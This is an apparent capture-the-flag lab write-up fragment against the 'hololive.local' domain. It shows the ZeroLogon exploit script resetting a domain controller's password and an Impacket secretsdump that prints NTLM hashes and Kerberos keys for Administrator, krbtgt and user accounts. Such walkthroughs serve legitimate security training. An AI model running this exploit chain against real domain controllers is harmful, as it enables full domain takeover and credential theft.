```
|   Product_Version: 10.0.17763
|_  System_Time: 2022-08-28T18:57:55+00:00

```
What is the NetBIOS name of the Domain Controller?
*DC01*

What is the NetBIOS domain name of the network?
*HOLOLIVE*

What domain are you attacking?
*hololive.local*

```
┌──(impacketEnv)─(kali㉿kali)-[~/Downloads/zerologon_learning]
└─$ python3 zeroLogon-NullPass.py DC01 10.10.212.36           

 _____                   __                         
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __  
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \ 
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/             
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz
  
Performing authentication attempts...
Failure to Autheticate at attempt number: 444
Zero Logon successfully exploited, changing password.

```

```
┌──(impacketEnv)─(kali㉿kali)-[~/Downloads/zerologon_learning]
└─$ secretsdump.py -just-dc -no-pass DC01\$@10.10.212.36
Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
Administrator:aes128-cts-hmac-sha1-96:535501623337ae03580527692f08f0e1
Administrator:des-cbc-md5:bf34685d383e6734
krbtgt:aes256-cts-hmac-sha1-96:9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583
krbtgt:aes128-cts-hmac-sha1-96:81628713bd5608becc4325052eb9702d
krbtgt:des-cbc-md5:25f1cea1542f9e31
hololive.local\a-koronei:aes256-cts-hmac-sha1-96:8085b97e73f4dfa6e2cc52a885dd3b1339bf17c17e999a8863686bdf0d800763
hololive.local\a-koronei:aes128-cts-hmac-sha1-96:2f6fd0c9e56a00883ab21544791becab
hololive.local\a-koronei:des-cbc-md5:89df5b3b9b680ea1
hololive.local\a-fubukis:aes256-cts-hmac-sha1-96:7b675daa6cd54ae667a2726a5d99259638b29467fd8e4b3cd6ec4e9564a168dd
```